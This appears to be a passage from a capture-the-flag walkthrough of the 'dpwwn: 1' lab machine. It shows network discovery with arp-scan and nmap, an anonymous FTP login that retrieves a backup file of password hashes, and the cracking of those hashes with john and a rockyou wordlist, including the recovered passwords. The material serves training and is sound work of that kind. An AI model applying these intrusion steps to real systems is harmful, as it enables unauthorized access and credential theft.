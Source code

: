 # dpwwn: 1

## 1.Enumeration

```bash
root@kali: arp-scan -I eth0 -l

Interface: eth0, type: EN10MB, MAC: 08:00:27:b2:e9:3f, IPv4: 192.168.56.102
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.56.1	0a:00:27:00:00:0f	(Unknown: locally administered)
192.168.56.119	08:00:27:d3:ce:c3	PCS Systemtechnik GmbH
192.168.56.100	08:00:27:29:ed:8e	PCS Systemtechnik GmbH
```

The ip address is `192.168.56.119`, let's scan it.


```bash
root@kali: nmap -v -p21,22,80,8080 -sV -sC -oN nmap.out 192.168.56.119

Nmap scan report for 192.168.56.119
Host is up (0.00024s latency).

PORT     STATE  SERVICE    VERSION
21/tcp   open   ftp        pyftpdlib 1.5.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--   1 root     root         1062 Jul 29  2019 backup
| ftp-syst: 
|   STAT: 
| FTP server status:
|  Connected to: 192.168.56.119:21
|  Waiting for username.
|  TYPE: ASCII; STRUcture: File; MODE: Stream
|  Data connection closed.
|_End of status.
22/tcp   open   ssh        OpenSSH 7.9p1 Debian 10 (protocol 2.0)
| ssh-hostkey: 
|   2048 71:bd:fa:c5:8c:88:7c:22:14:c4:20:03:32:36:05:d6 (RSA)
|   256 35:92:8e:16:43:0c:39:88:8e:83:0d:e2:2c:a4:65:91 (ECDSA)
|_  256 45:c5:40:14:49:cf:80:3c:41:4f:bb:22:6c:80:1e:fe (ED25519)
80/tcp   closed http
8080/tcp closed http-proxy
MAC Address: 08:00:27:D3:CE:C3 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

the only ports are `21` and `22`, so let's check ftp first :

we are able to connect to ftp via user `anonymous` :

```bash
tp 192.168.56.119                                    
Connected to 192.168.56.119.
220 pyftpdlib 1.5.5 ready.
Name (192.168.56.119:root): anonymous
331 Username ok, send password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.

ftp> dir
229 Entering extended passive mode (|||41299|).
125 Data connection already open. Transfer starting.
-rw-r--r--   1 root     root         1062 Jul 29  2019 backup

ftp> get backup
local: backup remote: backup
229 Entering extended passive mode (|||36815|).
125 Data connection already open. Transfer starting.
100% |******************************************************************************************|  1062      179.86 KiB/s    00:00 ETA
226 Transfer complete.
```

inside backup file we see this 5 hashes, because it is some how not in a good format

i just copied and paste each line in a new file call `user.txt`, the hash type can be identified with `hashid` :

```bash
root@kali: hashid -mj '$6$$3QW/J4OlV3naFDbhuksxRXLrkR6iKo4gh.Zx1RfZC2OINKMiJ/6Ffyl33OFtBvCI7S4N1b8vlDylF2hG2N0NN/'

Analyzing '$6$$3QW/J4OlV3naFDbhuksxRXLrkR6iKo4gh.Zx1RfZC2OINKMiJ/6Ffyl33OFtBvCI7S4N1b8vlDylF2hG2N0NN/'
[+] SHA-512 Crypt [Hashcat Mode: 1800][JtR Format: sha512crypt]
```

just use `john` to crack the password :

```bash
root@kali: john --wordlist=/usr/share/wordlists/rockyou.txt --format=sha512crypt user.txt 

Using default input encoding: UTF-8
Loaded 5 password hashes with 2 different salts (2.5x same-salt boost) (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
space            (space)     
cheer14          (sunset)     
sky              (sky)  
```

